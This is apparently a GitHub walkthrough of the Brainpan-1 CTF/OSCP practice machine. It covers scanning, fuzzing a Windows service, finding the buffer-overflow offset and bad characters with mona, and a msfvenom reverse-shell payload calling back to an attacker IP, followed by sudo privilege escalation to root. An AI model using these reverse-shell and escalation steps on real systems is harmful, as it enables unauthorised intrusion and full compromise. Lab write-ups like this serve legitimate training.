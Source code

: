 # Brainpan-1
Walkthrough - Reverse engineer a Windows executable, find a buffer overflow and exploit it on a Linux machine.


Brainpan is perfect for OSCP practice and has been highly recommended to complete before the exam. Exploit a buffer overflow vulnerability by analyzing a Windows executable on a Linux machine. If you get stuck on this machine, don't give up (or look at writeups), just try harder. 



# 1. python3 threader.py 
here we find two port 9999, 10000 are opened and at 10000 SimpleHTTPServer 0.6 (Python 2.7.3) .
# 2. A web portal was live.
``` nmap -p9999,10000 -sV ip
# 3. I used gobuster for directory traversal 
``` gobuster  dir  -u http://http://10.10.188.178:10000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  ```
# Found /bin directory

![alt text](./brainpan.png)

Download brainpan.exe file 
# Open File In Immunity Debugger 
Start running

Now bruteforcing by 

``` nc ip 9999 ```
 
 ## I found 
 A buffer overflow while giving the 900 'A' .
 Generate cyclic pattern using metasploit-framework 

 ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900 ```

Found an offset of 524
![alt text](./binary.png)

Now edit the value of offset to 524 and assign the value to return address BBBB then run again  and see return is overwritten.

# Generate Badchar 
-> add badchar to payload 
-> exclude '\x00' from the 

``` !mona bytearray -b '\x00'```

-> Remove '\x00' from badchars

-> run the exploit then 

->run 
``` !mona compare -f c:\mona\brainpan\bytearray.bin```

Then I find the no badchars 

-> then run

```!mona jmp -r esp -cpb '\x00'```

Find ``` jmp esp``` 

I found ``0x311712f3``

-> Generate payload using msfvnom

``msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.17.47.191 LPORT=4444 -f c -b "\x00"``

-> Replace payload with generated payload 

->Prepend and append no ops '\x90' 

-> Run exploit

->Put a listener ``nc -lvnp 4444```
## Now you are able to gain reverse shell
-> Now change the ip to machine address then in msfvenom command and replace generated payload

-> Now run again 

## -> OOhOO now you got the shell.
But the shell command is not working properly I typed ls but not worked then i typed dir ,It worked but linux commands are not working then i see the ``checksrv.sh`` file i found it is using absolute path for command . To fix you can follow this link but not sure that it will work for you
 https://askubuntu.com/questions/1091553/how-do-i-fix-error-opening-terminal-unknown-on-ubuntu-server

-> I run /usr/bin/sudo -l
```
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

Here `` anansi_util`` can run without being root 
Run that found -
``` Z:\home\puck>/usr/bin/sudo /home/anansi/bin/anansi_util

Z:\home\puck>Usage: /home/anansi/bin/nansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

Run ```/usr/bin/sudo /home/anansi/bin/anansi_util manual id ```

then `` !/bin/bash``
Now you are a root user

![alt text](./root.png)
